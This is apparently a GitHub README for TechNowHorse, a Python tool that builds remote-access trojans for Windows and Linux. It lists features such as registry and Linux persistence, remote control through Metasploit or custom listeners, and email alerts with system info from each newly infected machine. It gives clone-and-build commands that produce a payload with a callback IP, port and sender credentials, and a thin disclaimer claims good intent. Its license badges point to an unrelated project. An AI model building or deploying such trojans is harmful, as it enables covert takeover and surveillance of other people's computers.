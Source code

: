 <h1 align="center">TechNowHorse</h1>
<p align="center">
  <a href="https://github.com/tiagorlampert/sAINT/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-BSD%203-lightgrey.svg">
  </a>
  <a href="https://github.com/tiagorlampert/sAINT/tree/master/src_template/main/java/saint">
    <img src="https://img.shields.io/badge/Release-1.0-blue.svg">
  </a>
    <a href="https://opensource.org/licenses/BSD-3-Clause">
    <img src="https://img.shields.io/badge/Open%20Source-%E2%9D%A4-brightgreen.svg">
  </a>
</p>



<p align="center">
  TechNowHorse is a RAT (Remote Administrator Trojan) Generator for Windows/Linux systems written in Python 3.
</p>

This small python script can do really awesome work.

## Disclaimer
<p align="center">
  :computer: This project was created only for good purposes and personal use.
</p>

THIS SOFTWARE IS PROVIDED "AS IS" WITHOUT WARRANTY OF ANY KIND. YOU MAY USE THIS SOFTWARE AT YOUR OWN RISK. THE USE IS COMPLETE RESPONSIBILITY OF THE END-USER. THE DEVELOPERS ASSUME NO LIABILITY AND ARE NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE CAUSED BY THIS PROGRAM.

## Tested On
[![Kali)](https://www.google.com/s2/favicons?domain=https://www.kali.org/)](https://www.kali.org) **Kali Linux - ROLLING EDITION**

[![Windows)](https://www.google.com/s2/favicons?domain=https://www.microsoft.com/en-in/windows/)](https://www.microsoft.com/en-in/windows/) **Windows 8.1 - Pro


## Following is the limitations of meterpreter payload generated using metasploit:-
  * Have to run the Metasploit Listener before executing backdoor
  * Backdoor itself don't become persistence, we have to use the post exploitation modules in order to make backdoor persistence. 
    And post exploitation modules can only be used after successful exploitation.
  * Didn't Notify us whenever payload get executed on new system.
  
We all know how powerful the Meterpeter payload is but still the payload made from it is not satisfactory.

## Following are the features of this payload generator which will give you a good idea of this python script:-
  * Uses Windows registry to become persistence in windows.
  * Also manages to become persistence in linux system.
  * Payload can run on LINUX as well as WINDOWS.
  * Provide Full Access, as metasploit listener could be used as well as supports custom listener (You can Create Your Own Listener)
  * Sends Email Notification, when ever payload runs on new system, with complete system info.
  * Generates payload within 1 minute of ever less.
  * Supports all meterpreter post exploitation modules.
  * payload Can be Created on Windows as well as Linux system.


## Prerequisite

## How To Use in Linux
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/Technowlogy-Pushpender/technowhorse.git

# Go into the repository
$ cd technowhorse

# Installing dependencies
$ python -m pip install -r requirements.txt

$ chmod +x paygen.py
$ ./paygen.py  --help    or   python paygen.py --help

# Making Payload/RAT
$ python paygen.py --ip 127.0.0.1 --port 8080 -e youremail@gmail.com -p YourEmailPass -l -o output_file_name
```

## How To Use in Windows
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/Technowlogy-Pushpender/technowhorse.git

# Go into the repository
$ cd technowhorse

# Installing dependencies
$ python -m pip install -r requirements.txt

# Open paygen.py in Text editor and Configure Line 7 "PYTHON_PYINSTALLER_PATH = "C:/Python37-32/Scripts/pyinstaller.exe" "

# Getting Help Menu
$ python paygen.py --help

# Making Payload/RAT
$ python paygen.py --ip 127.0.0.1 --port 8080 -e youremail@gmail.com -p YourEmailPass -l -o output_file_name
```
